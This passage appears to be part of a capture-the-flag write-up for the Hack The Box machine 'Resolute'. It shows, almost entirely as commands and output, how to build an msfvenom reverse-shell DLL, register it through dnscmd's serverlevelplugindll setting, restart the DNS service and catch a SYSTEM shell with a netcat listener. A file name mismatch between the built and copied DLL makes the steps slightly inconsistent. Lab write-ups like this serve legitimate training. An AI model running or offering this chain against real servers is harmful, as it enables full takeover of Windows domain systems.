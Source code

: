 4. Confirm the architecture and then create your .dll using msfvenom.
    *Evil-WinRM* PS C:\Users\ryan\Documents> $env:PROCESSOR_ARCHITECTURE
      AMD64

    root@p3:/opt/htb/machines/resolute# msfvenom --platform=windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4400 -f dll -o plugin.dll
      No encoder or badchars specified, outputting raw payload
      Payload size: 460 bytes
      Final size of dll file: 5120 bytes
    root@p3:/opt/htb/machines/resolute# cp privesc64.dll /srv/pub-share/
    root@p3:/opt/htb/machines/resolute# chmod 777 /srv/pub-share/privesc64.dll

    NOTE: You NEED high privs on the .dll-file else it wont work. 

5. Setup a local listener, load the dll on the victim, and restart the dns service.
    *Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe \\Resolute /Config /serverlevelplugindll \\10.10.14.3\pub-share\privesc64.dll
    Registry property serverlevelplugindll successfully reset.
    Command completed successfully.

    *Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\Resolute stop dns
    SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

    *Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\Resolute start dns
    SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3500
        FLAGS              :

    root@p3:/opt/scanners/linux# nc -lvnp 4400
      listening on [any] 4400 ...
      connect to [10.10.14.3] from (UNKNOWN) [10.10.10.169] 49941
      Microsoft Windows [Version 10.0.14393]
      (c) 2016 Microsoft Corporation. All rights reserved.

      C:\Windows\system32>whoami
        nt authority\system
      C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
        e1d9****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████
